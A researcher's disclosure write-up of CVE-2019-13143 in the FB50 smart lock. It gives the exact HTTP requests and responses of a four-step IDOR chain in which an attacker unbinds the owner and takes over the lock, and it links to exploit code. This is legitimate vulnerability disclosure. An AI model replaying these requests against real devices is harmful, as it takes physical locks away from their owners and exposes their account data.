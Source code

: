 ```yaml
---
template: text.html
title: Picking the FB50 smart lock (CVE-2019-13143)
subtitle: … and lessons learnt in IoT security
date: 2019-08-05
---
```


# Picking the FB50 smart lock (CVE-2019-13143)
## … and lessons learnt in IoT security 

### The lock

The lock in question is the FB50 smart lock, manufactured by Shenzhen
Dragon Brother Technology Co. Ltd. This lock is sold under multiple brands
across many ecommerce sites, and has over, an estimated, 15k+ users.

The lock pairs to a phone via Bluetooth, and requires the OKLOK app from
the Play/App Store to function. The app requires the user to create an
account before further functionality is available. 
It also facilitates configuring the fingerprint,
and unlocking from a range via Bluetooth.

We had two primary attack surfaces we decided to tackle — Bluetooth (BLE)
and the Android app.

### Via Bluetooth Low Energy (BLE)

Android phones have the ability to capture Bluetooth (HCI) traffic
which can be enabled under Developer Options under Settings. We made 
around 4 "unlocks" from the Android phone, as seen in the screenshot.

![wireshark packets](/static/img/bt_wireshark.png)

This is the value sent in the `Write` request:

![wireshark write req](/static/img/bt_ws_value.png)

We attempted replaying these requests using `gattool` and `gattacker`,
but that didn't pan out, since the value being written was encrypted.[^1]

### Via the Android app

Reversing the app using `jd-gui`, `apktool` and `dex2jar` didn't get us too
far since most of it was obfuscated. Why bother when there exists an 
easier approach -- BurpSuite.

We captured and played around with a bunch of requests and responses,
and finally arrived at a working exploit chain.

### The exploit

The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:

1. Using the lock's MAC (obtained via a simple Bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

This is what it looks like, in essence (personal info redacted).

#### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

#### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
```

Response:

```
   "result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   }
```

#### Request 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>}
```
#### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"}
```

### That's it! (& the scary stuff)

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

To add to that, roughly 15,000 user accounts' info are exposed via IDOR.
Ilja, a cool dude I met on Telegram, noticed locks named "carlock", 
"garage", "MainDoor", etc.[^2] This is terrifying.

*shudders*

### Proof of Concept

[PoC Video](https://twitter.com/icyphox/status/1158396372778807296)

[Exploit code](https://github.com/icyphox/pwnfb50)

### Disclosure timeline

- **26th June, 2019**: Issue discovered at SecureLayer7, Pune
- **27th June, 2019**: Vendor notified about the issue
- **2nd July, 2019**: CVE-2019-13143 reserved
- No response from vendor
- **2nd August 2019**: Public disclosure

### Lessons learnt

**DO NOT**. Ever. Buy. A smart lock. You're better off with the "dumb" ones
with keys. With the IoT plague spreading, it brings in a large attack surface
to things that were otherwise "unhackable" (try hacking a "dumb" toaster).

The IoT security scene is rife with bugs from over 10 years ago, like
executable stack segments[^3], hardcoded keys, and poor development 
practices in general.

Our existing threat models and scenarios have to be updated to factor 
in these new exploitation possibilities. This also broadens the playing 
field for cyber warfare and mass surveillance campaigns. 

### Researcher info

This research was done at [SecureLayer7](https://securelayer7.net), Pune, IN by:

* Anirudh Oppiliappan (me)
* S. Raghav Pillai ([@_vologue](https://twitter.com/_vologue))
* Shubham Chougule ([@shubhamtc](https://twitter.com/shubhamtc))

[^1]: [This](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/) article discusses a similar smart lock, but they broke the encryption.
[^2]: Thanks to Ilja Shaposhnikov (@drakylar) for bruteforcing the IDs and sharing the data dump.
[^3]: [PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)


